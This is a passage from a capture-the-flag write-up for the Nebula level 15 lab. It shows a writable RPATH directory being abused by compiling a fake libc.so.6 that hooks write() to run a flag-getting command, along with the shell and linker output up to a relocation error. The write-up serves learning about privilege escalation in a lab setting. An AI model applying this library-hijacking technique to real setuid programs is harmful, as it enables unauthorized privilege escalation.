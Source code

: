 
As you can see the dynamic linker tries to load the `libc` from the directory `/var/tmp/flag15/`. This is a very unusual 
path and a quick check reveals that this directory is owned by user `level15`, which means we can write to it.

	:::bash
	level15@nebula:/home/flag15$ ls -dl /var/tmp/flag15/
	drwxrwxr-x 1 level15 level15 60 Oct  4 13:59 /var/tmp/flag15/

After having tried some paths in `/var/tmp/flag15/`, the dynamic linker finally finds it libc in 
`/lib/i386-linux-gnu/libc.so.6` and loads it into memory:

	:::bash
	open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY) = 3
	read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0p\222\1\0004\0\0\0"..., 512) = 512

The basic idea is to create our own libc and patch the `puts()` function that is used.
As we can see in the strace output, the string `strace it!` is written with the `write()` function
call at the end.

What if we could patch the `write()` system call?

Let's try it. I created the following C program:

	:::C
	#include <stdlib.h>
	#include <stdio.h>

	#define _GNU_SOURCE

	int write(int fd, const char* buf) {
		if (strcmp(buf, "strace it!\n") == 0) {
			printf("Inside hook!\n");
			system("/bin/getflag >> /tmp/flagged");
		}
		return 0;
	}

and issued the following commands:

	:::bash
	level15@nebula:/home/flag15$ cat /tmp/write.c
	#include <stdlib.h>
	#include <stdio.h>

	#define _GNU_SOURCE

	int write(int fd, const char* buf) {
		if (strcmp(buf, "strace it!\n") == 0) {
			printf("Inside hook!\n");
			system("/bin/getflag >> /tmp/flagged");
		}
		return 0;
	}
	level15@nebula:/home/flag15$ gcc -Wall -fPIC -shared -o /var/tmp/flag15/libc.so.6 /tmp/write.c 
	/tmp/write.c: In function write:
	/tmp/write.c:7:2: warning: implicit declaration of function strcmp [-Wimplicit-function-declaration]
	level15@nebula:/home/flag15$ ./flag15 
	./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by ./flag15)
	./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	./flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
